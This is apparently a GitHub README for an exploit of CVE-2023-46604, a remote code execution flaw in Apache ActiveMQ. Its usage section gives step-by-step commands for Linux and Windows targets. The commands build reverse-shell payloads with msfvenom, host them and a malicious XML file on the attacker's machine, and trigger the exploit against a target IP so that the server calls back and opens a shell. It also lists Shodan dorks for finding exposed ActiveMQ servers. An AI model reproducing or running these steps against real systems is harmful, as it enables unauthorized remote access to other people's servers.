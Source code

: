 # CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
This exploit builds upon the foundational work available at https://github.com/X1cT34m (https://github.com/X1r0z/ActiveMQ-RCE). We have further developed the technique to achieve a reverse shell utilizing the Metasploit Framework (https://github.com/rapid7/metasploit-framework).

# Usage:
<b>Important: Manually change the IP Address (0.0.0.0 on line 11) in the XML files with the IP Address where the payload will be generated. If u follow the below commands it will be your Listner IP Addess. Also {IP_Of_Hosted_XML_File} will be your Listner IP Address.</b>

For Linux/Unix Targets
```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell
cd CVE-2023-46604-RCE-Reverse-Shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
python3 -m http.server 8001
./ActiveMQ-RCE -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:8001/poc-linux.xml
```

For Windows Targets
```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell
cd CVE-2023-46604-RCE-Reverse-Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f eXE -o test.exe
python3 -m http.server 8001
./ActiveMQ-RCE -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:8001/poc-windows.xml
```

![image](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/assets/66937297/db1b82e4-55ef-4f23-9df7-8a0cf99c01c4)

# Shodan Dork:
- product:"ActiveMQ OpenWire Transport"
- ![image](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/assets/66937297/6d560881-7855-474b-8c8b-3fb5a3f09a94)
- product:"ActiveMQ OpenWire Transport" port:61616
- ![image](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/assets/66937297/1e073ec0-690e-40b1-bcc0-cb9390ca6b7c)



# Original Work:
- https://github.com/X1r0z/ActiveMQ-RCE

# For More Reading:
- https://www.rapid7.com/blog/post/2023/11/01/etr-suspected-exploitation-of-apache-activemq-cve-2023-46604/
- https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/
- https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis

A special thanks to https://github.com/Anon4mous for actively supporting me.
